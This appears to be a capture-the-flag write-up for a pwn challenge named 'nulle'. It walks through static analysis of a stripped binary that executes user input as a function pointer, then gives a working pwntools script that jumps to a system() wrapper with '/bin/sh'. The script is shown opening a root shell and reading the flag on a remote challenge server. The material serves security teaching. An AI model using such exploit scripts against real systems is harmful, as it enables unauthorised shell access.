


# nulle

## Description

> Our developer got a bit too clever with C structs. They decided that if two structs have the same fields, just in a different order, it’s fine to cast between them.

## Solution

It's been ages since I did any pwn challenges, so starting off with an easy one.

### Basic File Checks

Start by checking the file type. The important thing here is it's a 64-bit LSB binary, it's dynamically linked (ret2libc?) and stripped (we won't see variable/function names).

```bash
file main

main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b60a9da788119e1c0d0b0584c088e3e83c204eec, for GNU/Linux 3.2.0, stripped
```

Next up, the binary protections. There's no stack canary, meaning if we find a buffer overflow, it will be trivial to overwrite the return address and gain control of the execution flow. NX is enabled, so we won't be able to any injected execute shellcode on the stack. Finally, PIE is disabled, so the addresses in the program won't change on each execution.

```bash
checksec --file main

[*] '/home/crystal/Desktop/bug/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The final "basic" file check is to run the program.

```bash
./main

is your
please input something
meow
Segmentation fault
```

### Static Analysis

We want to understand the functionality of the program, so open in a disassembler. I opt for ghidra as it also does a nice attempt at decompilation (which ChatGPT can often convert to working C, python etc) and has syntax highlighting.



The symbols are stripped (as we saw earlier), so I'll start by reviewing each function and renaming variables. Here's the main function (called by `entry`).

```c
PTR_printf_s_00404160 = printf_s;
printf_s(s_is_your_00404060);
disable_buffering();
puts("please input something");
read(0,s_is_your_00404060,256);
exec_code(s_is_your_00404060);
return 0;
```

The `printf_s` function is just a wrapper for `printf`. It takes a pointer to a string (`%s` format specifier).

```c
printf("%s",param_1);
return;
```

The `disable_buffering` function is uninteresting - it's included in pwn challenges for performance reasons.

The user is asked to "please input something" and then 256 bytes of data are read from stdin to the location we saw printed at the beginning; "is your"

Crucially, the pointer to this location is then passed to a function which I renamed to `exec_code`.

```c
(*(code *)*param_1)(param_1 + 1);
return;
```

It will take the `param_1` (the string in `.data` we wrote to) and execute it as a function. Furthermore, `param_1 + 1` will be provided as a parameter.

If we look around the program for an interesting function to execute, we will find one which I renamed to `win`.

```c
system(param_1);
return;
```



This is even easier than typical ret2win challenges, since no stack buffer overflow is required. We can just supply the address of `win` (`0x4011b6`) and the string we would like to pass to it (`/bin/sh`).

### Solve Script

I use a [template](https://github.com/Crypto-Cat/CTF/blob/main/pwn/official_template.py) for pwntools scripts. In this case, I stripped out all the buffer overflow related functionality.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './main'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = p64(0x4011b6) + b'/bin/sh'

# Send the payload
io.sendlineafter(b'something', payload)

# Got Shell?
io.interactive()
```

We can run the script locally and see we get a shell.

```bash
python exploit.py

[+] Starting local process './main': pid 888495
[DEBUG] Received 0x1f bytes:
    b'is your\n'
    b'please input something\n'
[DEBUG] Sent 0x10 bytes:
    00000000  b6 11 40 00  00 00 00 00  2f 62 69 6e  2f 73 68 0a  │··@·│····│/bin│/sh·│
    00000010
[*] Switching to interactive mode

$
```

The cool thing about the template, is we can easily repeat this against the remote server now without changing the code at all.

```python
python exploit.py REMOTE 34.89.179.154 32034

[+] Opening connection to 34.89.179.154 on port 32034: Done
[DEBUG] Received 0x1f bytes:
    b'is your\n'
    b'please input something\n'
[DEBUG] Sent 0x10 bytes:
    00000000  b6 11 40 00  00 00 00 00  2f 62 69 6e  2f 73 68 0a  │··@·│····│/bin│/sh·│
    00000010
[*] Switching to interactive mode

$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
$ cat /home/solver/flag.txt
[DEBUG] Sent 0x1a bytes:
    b'cat /home/solver/flag.txt\n'
[DEBUG] Received 0x45 bytes:
    b'CTF{53c4abb4d8484a0dceb0840356114dc43dabc0855ae22d84ae5bba996aa54c0a}'
```

Flag: `CTF{53c4abb4d8484a0dceb0840356114dc43dabc0855ae22d84ae5bba996aa54c0a}`
